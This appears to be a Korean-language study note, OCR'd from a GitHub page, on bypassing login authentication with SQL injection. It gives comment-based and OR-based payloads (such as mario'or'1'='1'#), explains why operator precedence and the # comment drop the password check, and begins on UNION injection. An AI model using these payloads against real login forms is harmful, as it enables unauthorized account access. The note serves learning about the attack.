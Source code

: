 select * from member where id='mario'#' and pass=''   
->   
select * from member where id='mario' 까지만 실행되는 것.


---
SQL Injection : 로그인 인증 우회.

1) 주석 이용하는 기법.

주석 : mario'#   
or : mario'or'1'='1
or : mario'or'1'='1'#

select * from member where id='mario'or'1'='1' and pass='321qweq'

결과 : 마리오 정보만 나옴.


## 동작하는 과정
or 와 and 의 연산 우선순위를 알아야 함.

and 구문부터 가장 먼저 실행.

## or : mario'or'1'='1
select * from member where id='mario' or ('1'='1' and pass='321qweq')

() 부분의 and 는 거짓이 되어버림.   
그래서 or 구문을 실행해서 mario의 정보만 나오게 되는 것.


### or : mario'or'1'='1'#
select * from member where id='mario' or '1'='1'#' and pass='321qweq'

select * from member where id='mario' or '1'='1'   
이 부분까지만 실행이 되고   
뒷 부분은 주석처리가 되기 때문.

### or 와 #(주석)은 최대한 안쓰는 게 좋음. 

주석처리의 sql injection으로 로그인하게 된다면,   
첫번째 아이디로 로그인하게 된다.



## 생각 순서

로그인 페이지가 있고 아이디와 비밀번호를 입력할 수 있다...
그러면 식별과 인증을 동시에 한다는 케이스로 가정을 해보자.

서버에서 준비한 쿼리문이 select * from member where id='' and pass='' 이거라고 생각을 해볼까?

그럼 id 값에 맞게 쿼리문을 작성해보자...

# union
union = 데이터를 연결해서 출력.
      = select문을 2개 쓸 수 있게 한다.
